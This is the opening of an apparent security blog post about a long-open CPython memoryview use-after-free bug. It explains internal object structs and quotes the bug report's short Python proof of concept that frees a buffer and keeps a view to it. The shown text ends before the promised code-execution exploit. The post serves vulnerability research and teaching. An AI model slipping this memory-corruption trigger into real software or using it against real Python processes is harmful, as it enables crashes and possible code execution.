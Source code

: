 ```yaml
---
layout: post
title:  "Exploiting a Use-After-Free for code execution in every version of Python 3"
date:   2022-05-11 00:00:00 +0000
tags: python
---
```


A while ago I was browsing the Python [bug tracker](https://bugs.python.org), and  I stumbled upon this bug - "[memoryview to freed memory can cause segfault](https://bugs.python.org/issue15994)". It was created in 2012, originally present in Python 2.7, but remains open to this day, 10 years later. This piqued my interest, so I decided to take a closer look.

What follows is a breakdown of the root cause and how I wrote a reliable exploit which works in every version of Python 3.

## Python Objects
To understand anything happening in CPython it's important to have an understanding of how objects are represented internally. I'll give a brief introduction here, but there are several (better) resources on the internet for learning about this.

Everything in Python is an object. CPython represents these objects with the `PyObject` struct. Every type of object extends the basic `PyObject` struct with their own specific fields. A `PyObject` looks like this:
```c
typedef struct _object {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
} PyObject;
```

A list, for example, is represented by a `PyListObject`, which looks roughly like this:
```c
typedef struct {
    PyObject ob_base;
    Py_ssize_t ob_size;
    PyObject **ob_item;
    Py_ssize_t allocated;
} PyListObject;
```

We can see that every object has a refcount (`ob_refcnt`) and a pointer to its corresponding type object (`ob_type`), in `ob_base`. The type object is a singleton and there exists one for every type in the Python language. For example, an int will point to `PyLong_Type`, and a list will be point to `PyList_Type`.

With that out of the way, let's look at the PoC.

## Proof of Concept
The author of the bug report kindly included a proof of concept which will trigger a null pointer dereference. You can see that here:
```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True
    
f = io.BufferedReader(File())
f.read(1)                       # get view of buffer used by BufferedReader
del f                           # deallocate buffer
view = view.cast('P')
```